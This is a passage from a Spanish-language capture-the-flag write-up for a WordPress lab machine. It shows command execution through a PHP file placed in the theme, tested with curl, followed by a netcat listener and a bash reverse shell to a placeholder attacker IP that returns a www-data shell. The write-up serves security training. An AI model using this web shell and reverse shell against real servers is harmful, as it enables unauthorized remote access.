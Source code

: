 Si te das cuenta, ahí mismo tenemos la ruta de dónde está ese archivo.

Tan solo tenemos que agregar la ruta del tema y el comando a ejecutar:

<p align="center">
<img src="/assets/images/THL-writeup-theFirstAvenger/Captura15.png">
</p>

Funcionó.

También podemos probarlo con **curl**:
```bash
curl -X GET "http://thefirstavenger.thl/wp1/wp-content/themes/twentytwentythree/patterns/hidden-404.php?cmd=id"
uid=33(www-data) gid=33(www-data) groups=33(www-data)
<!-- wp:spacer {"height":"var(--wp--preset--spacing--30)"} -->
<div style="height:var(--wp--preset--spacing--30)" aria-hidden="true" class="wp-block-spacer"></div>
<!-- /wp:spacer -->

<!-- wp:heading {"level":1,"align":"wide"} -->
<h1 class="alignwide"
```
Ahora, apliquemos una **Reverse Shell** y ganemos acceso.

Abre un listener con **netcat**:
```bash
nc -nvlp 443
listening on [any] 443 ...
```

Apliquemos la siguiente **Reverse Shell**:
```bash
bash -c 'bash -i >%26 /dev/tcp/Tu_IP/443 0>%261'
```

<p align="center">
<img src="/assets/images/THL-writeup-theFirstAvenger/Captura16.png">
</p>

Y observa la **netcat**:
```bash
nc -nvlp 443
listening on [any] 443 ...
connect to [Tu_IP] from (UNKNOWN) [192.168.10.180] 53832
bash: cannot set terminal process group (34916): Inappropriate ioctl for device
bash: no job control in this shell
</wp1/wp-content/themes/twentytwentythree/patterns$ whoami
whoami
www-data
```
